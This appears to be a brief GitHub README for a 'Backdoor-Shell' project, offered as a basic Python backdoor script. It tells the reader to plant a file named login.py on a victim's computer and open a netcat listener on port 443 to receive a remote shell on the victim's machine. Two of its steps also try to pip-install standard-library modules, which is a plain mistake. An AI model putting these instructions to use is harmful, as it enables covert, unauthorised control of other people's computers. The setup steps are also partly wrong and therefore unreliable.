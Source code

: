 # Backdoor-Shell
Basic python backdoor script

.THE HOST SHOULD USING LINUX-SOFTWARE

1.install python(https://www.python.org/downloads/)

2.pip3 install socket

3.pip3 install subprocess

4.install the login.py on victims computer

5.go to your teminal and type nc -lvp 443

6.it will connect and you get access of victims cmd

